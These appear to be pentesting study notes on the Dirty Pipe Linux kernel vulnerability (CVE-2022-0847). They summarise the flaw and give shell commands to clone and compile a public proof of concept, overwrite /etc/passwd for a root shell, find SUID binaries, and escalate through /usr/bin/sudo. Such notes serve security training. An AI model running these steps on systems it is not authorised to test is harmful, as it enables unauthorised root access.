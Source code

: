 ```yaml
---
title: Dirty Pipe
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Dirty Pipe

A vulnerability in the Linux kernel, named [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux.

Technically, the vulnerability is similar to the [Dirty Cow](dirty-cow.md) vulnerability discovered in 2016. All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.

In a nugshell: this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected. Android apps run with user rights, so a malicious or compromised app could take over the phone.

Downloading a POC: [https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

```shell-session
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```


After compiling the code, we have two different exploits available:

- The first exploit version (exploit-1) modifies the /etc/passwd and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit:

```shell-session
uname -r

./exploit-1
```

- With the help of the 2nd exploit version (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:

```shell-session
 find / -perm -4000 2>/dev/null
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

```shell-session
./exploit-2 /usr/bin/sudo
```